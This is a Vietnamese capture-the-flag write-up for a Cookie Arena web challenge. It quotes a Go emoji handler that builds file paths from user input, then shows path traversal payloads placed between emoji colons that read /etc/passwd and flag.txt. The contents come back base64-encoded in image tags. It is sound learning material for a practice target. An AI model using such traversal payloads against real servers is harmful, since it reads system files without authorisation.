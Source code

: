 # Baby Guestbook

Source: Cookie Arena

Tools: Burpsuite

Technique: Path Traversal

Fields: Web

![image.png](image.png)

Ở đây có 2 form để nhập nhưng chỉ có form bên dưới là “Message" mới cho phép dùng emoji.

- emoji.go
    
    ```go
    const EMOJI_ROOT string = "static/emojis/%s"
    //--------------------------
    func getEmojiByName(name string) string {
    	emoji_name := strings.Trim(name, ":")
    	emoji_path := fmt.Sprintf(EMOJI_ROOT, emoji_name)
    
    	// read the emoji file
    	buffer, err := os.ReadFile(emoji_path)
    	if err != nil {
    		return name
    	}
    	body := base64.StdEncoding.EncodeToString(buffer)
    	data_uri := fmt.Sprintf("data:image/png; base64,%s", body)
    
    	return fmt.Sprintf(`<img src='%s' title='%s'>`, data_uri, emoji_name)
    }
    //-------------------------
    func ResolveEmojis(body string) string {
    	emoji_re := regexp.MustCompile(`:[^:]+:`)
    	return emoji_re.ReplaceAllStringFunc(body, getEmojiByName)
    }
    ```
    

Hàm `getEmojiByName` nhận vào một chuỗi tên emoji (`name`), loại bỏ dấu `:` xung quanh nó, và sau đó đọc tệp emoji từ thư mục `static/emojis` dựa trên tên này.

> Ví dụ: Name là :cry: thì nó sẽ đọc tệp emoji từ thư mục static/emojis/cry
> 

Vậy thì thử payload này để xem nó có đọc file `/etc/passwd` giống như đọc thư mục `static/emojis/cry` để hiển thị ra emoji không nhé.

```php
:../../../../../etc/passwd:
```

kết quả sẽ như thế này:

![image.png](image%201.png)

Dữ liệu trong file `/etc/passwd` được encode Base64 nên bạn F12 (Inspect) vào cái ảnh rồi decode nó ra nhé. Link decode mình để bên dưới.

![image.png](image%202.png)

Từ đây ta có thể thử payload khác:

```php
:../../../../../../../../../flag.txt:
```

sau đó decode base64 String 

![image.png](image%203.png)

***VẤN ĐỀ: người mới tiếp cận bài này có thể nghĩ ra được payload đúng rồi nhưng lại ko thấy kết quả là do chưa biết hoặc chưa nhận ra ta có thể F12 cái ảnh để xem chuỗi base64 đã được encode từ nội dung trả về của chuỗi nhập vào(giữa 2 dấu : :).
